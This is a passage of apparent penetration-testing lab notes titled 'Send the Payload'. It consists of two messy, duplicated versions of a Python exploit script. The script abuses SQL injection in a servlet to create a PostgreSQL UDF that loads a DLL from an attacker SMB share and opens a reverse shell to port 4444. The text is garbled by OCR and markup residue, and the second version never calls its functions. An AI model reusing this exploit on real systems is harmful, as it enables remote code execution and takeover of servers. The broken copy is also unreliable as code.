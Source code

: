 #### Send the Payload
```Python
import requests, sys
requests.packages.urllib3.disable_warnings()

def log(msg):
   print msg

def make_request(url, sql):
   log("[*] Executing query: %s" % sql[0:80])
   r = requests.get( url % sql, verify=False)
   return r

def create_udf_func(url):
   log("[+] Creating function...")
   sql = "--------FIX ME--------"
   make_request(url, sql)

def trigger_udf(url, ip, port):
   log("[+] Launching reverse shell...")
   sql = "select rev_shell($$%s$$, %d)" % (ip, int(port))
   make_request(url, sql)
   
if __name__ == '__main__':
   try:
       server = sys.argv[1].strip()
       attacker = sys.argv[2].strip()
       port = sys.argv[3].strip()
   except IndexError:
       print "[-] Usage: %s serverIP:port attackerIP port" % sys.argv[0]
       sys.exit()
       
   sqli_url  = "https://"+server+"/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;%s;--" 
   create_udf_func(sqli_url)
   trigger_udf(sqli_url, attacker, port)](<import requests
import sys

requests.packages.urllib3.disable_warnings()

def log(msg):
    print(msg)

def make_request(url, sql):
    log("[*] Executing query: {}".format(sql[:80]))
    r = requests.post(url % sql, verify=False)
    return r

def create_udf_func(url):
    log("[+] Creating function...")
    sql = "CREATE%20OR%20REPLACE%20FUNCTION%20plzwork%28text%2C%20integer%29%20RETURNS%20void%20AS%20%24%24%5C%5C192.168.45.216%5Cawae%5Crev_shell.dll%24%24%2C%20%24%24connect_back%24%24%20LANGUAGE%20C%20STRICT%3BSELECT%20plzwork%28%24%24192.168.45.216%24%24%2C%204444%29%3B"
    make_request(url, sql)

if __name__ == '__main__':
    if len(sys.argv) != 4:
        print("[-] Usage: {} serverIP:port attackerIP port".format(sys.argv[0]))
        sys.exit(1)

    server = sys.argv[1].strip()
    attacker = sys.argv[2].strip()
    port = sys.argv[3].strip()
```